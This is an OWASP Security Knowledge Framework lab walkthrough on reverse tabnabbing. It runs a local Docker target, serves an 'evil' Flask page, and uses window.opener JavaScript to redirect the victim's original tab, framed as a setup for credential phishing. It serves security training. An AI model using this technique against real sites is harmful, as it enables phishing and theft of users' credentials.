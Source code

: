 # Tabnabbing

## Running the app on Docker

```text
$ sudo docker pull blabla1337/owasp-skf-lab:tabnabbing
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:tabnabbing
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Basically every application that opens a link to a "\_blank" page is interesting to investigate.

```markup
<a href="example.com" taget="_blank">Follow this link</a>
```

Let's assume that the domain in the link of the following demo is under our control as a malicious attacker. When we click on the link 'Tab me" we find that a new page is opened on another browser tab. This is exactly the behaviour we are looking for!

![](../../.gitbook/assets/python/Tabnabbing/1.png)

If we were now to inspect the browsers source code of the target application, our assumptions are validated. We can perform a reverse tabnabbing phishing attack!

![](../../.gitbook/assets/python/Tabnabbing/2.png)

## Exploitation

### Step1

Now it is time to start our evil application to be able to serve our malicious script. We can easily achieve this by starting our own simple python flask app that could look like this:

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install request
$ python appname.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

### Step2

Now that the service is running we want to serve the malicious piece of javascript that is responsible for redirecting the parent tab to a new location. Below is what happens under the hood:

![](../../.gitbook/assets/python/Tabnabbing/3.png)

Now, let's add the following piece of javascript to the evil webserver we just created.

```javascript
<script>
  window.opener.location.replace("https://www.securityknowledgeframework.org")
</script>
```

### Step3

Now, after serving the evil web application open the target application and click on the link with the domain that is under our control. Notice how the parent tab immediately redirect itself to the web page of the security knowledge framework?

![](../../.gitbook/assets/python/Tabnabbing/4.png)

A visitor of an application that follows the link will be unexpectedly redirected to a phishing application. This evil application could look identical to the original application i.e. ask for the users credentials because his "session expired".

## Additional sources

[https://www.owasp.org/index.php/Reverse_Tabnabbing](https://www.owasp.org/index.php/Reverse_Tabnabbing)
